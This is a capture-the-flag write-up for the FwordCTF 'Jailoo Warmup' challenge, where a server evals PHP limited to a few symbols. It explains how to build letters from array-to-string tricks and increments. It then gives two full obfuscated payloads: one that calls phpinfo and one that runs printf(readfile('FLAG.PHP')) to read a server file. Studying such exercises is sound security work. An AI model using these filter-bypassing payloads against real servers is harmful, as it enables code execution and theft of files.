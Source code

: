 # JAILOO WARMUP

We are only allowed to use these characters: $\(\)\_\[\]=+;".

Webserver evals our input.

We also have a 2000 character cap \(found by experimenting\)

Found a pretty good resource on this: [https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)

Main idea is to

* use underscores for variables names
* use `$_=([]."")[([]==[])+([]==[])+([]==[])]` to get a lowercase a
* use `$_=([]."")[[].[]+[][[]]]` to get an uppercase A
* use `[varname]++` to increase the ascii value for each of these to get all ascii letters
* take a string and join our characters one by one with `.=`
* for other characters, we can just join then with `.="char"`, assuming it is allowed.

Our first goal is to get phpinfo, to see if there are any disabled functions:

Payload:

```php
$_=([]."")[([]==[])+([]==[])+([]==[])];$_++;$_++;$__="";$___=$_;$___++;$___++;$___++;$____=$___;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$_____=$____;$_____++;$_____++;$__.=$_____;$____=$___;$____++;$____++;$__.=$____;$__.=$_____;$____++;$__.=$____;$___=$_;$___++;$___++;$___++;$____=$___;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$__.=$____;$___=$_;$___++;$___++;$___++;$____=$___;$____++;$__.=$___;$___=$_;$___++;$___++;$___++;$____=$___;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$__.=$____;$__();
```

We can see that useful functions which would have allowed us to read from the file like file\_get\_contents are disabled. However, readfile\(\) is not disabled, so we can use that. We can then use printf\(\) to output that to us.

Our final payload will then eval to: printf\(readfile\("FLAG.PHP"\)\)

Final payload:

```php
$_=([]."")[([]==[])+([]==[])+([]==[])];$_++;$_++;$__="";$___=$_;$___++;$___++;$___++;$____=$___;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$_____=$____;$_____++;$_____++;$__.=$_____;$_____++;$_____++;$__.=$_____;$_____=$___;$_____++;$_____++;$_____++;$__.=$_____;$_____++;$_____++;$_____++;$_____++;$_____++;$__.=$_____;$____++;$____++;$____++;$____++;$____++;$____++;$__.=$____;$__.=$___;$_=([]."")[([]==[])+([]==[])+([]==[])];$_++;$_++;$_++;$_++;$_____="";$______=$_;$______++;$______++;$______++;$_______=$______;$_______++;$_______++;$_______++;$_______++;$_______++;$_______++;$_______++;$_______++;$________=$_______;$________++;$________++;$_____.=$________;$_____.=$_;$_=([]."")[([]==[])+([]==[])+([]==[])];$_____.=$_;$_++;$_++;$_++;$_____.=$_;$_++;$_++;$_____.=$_;$_++;$_++;$_++;$_____.=$_;$_++;$_++;$_++;$_____.=$_;$_=([]."")[([]==[])+([]==[])+([]==[])];$_++;$_++;$_++;$_++;$_____.=$_;$_=([]."")[[].[]+[][[]]];$_______="";$________=$_;$________++;$________++;$________++;$________++;$________++;$_______.=$________;$_________=$________;$_________++;$_________++;$_________++;$_________++;$_________++;$_________++;$_______.=$_________;$_______.=$_;$_________=$________;$_________++;$_______.=$_________;$_______.=".";$_________++;$__________=$_________;$__________++;$__________++;$__________++;$__________++;$__________++;$__________++;$__________++;$__________++;$_______.=$__________;$_______.=$_________;$_______.=$__________;$__($_____($_______));
```

## Flag: FwordCTF{Fr0m\_3very\_m0unta1ns1d3\_l3t\_fr33d0m\_r1ng\_MLK}

\(need to view source to see it\)

